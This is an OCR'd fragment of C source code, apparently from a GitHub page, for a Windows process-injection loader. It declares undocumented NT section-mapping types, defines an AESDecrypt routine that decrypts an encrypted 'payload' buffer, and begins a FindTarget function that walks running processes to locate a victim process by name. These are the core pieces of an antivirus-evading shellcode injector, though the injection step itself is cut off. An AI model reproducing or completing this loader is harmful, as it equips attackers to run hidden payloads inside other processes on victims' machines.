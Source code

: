 ```C
    ULONG AllocationType,
    ULONG Win32Protect);

// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT
{
    ViewShare = 1,
    ViewUnmap = 2
} SECTION_INHERIT,
    *PSECTION_INHERIT;

int AESDecrypt(char *payload, unsigned int payload_len, char *key, size_t keylen)
{
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
    {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash))
    {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE *)key, (DWORD)keylen, 0))
    {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey))
    {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE *)payload, (DWORD *)&payload_len))
    {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}

int FindTarget(const char *procname)
{

    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap)
        return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hProcSnap, &pe32))
    {
        CloseHandle(hProcSnap);
```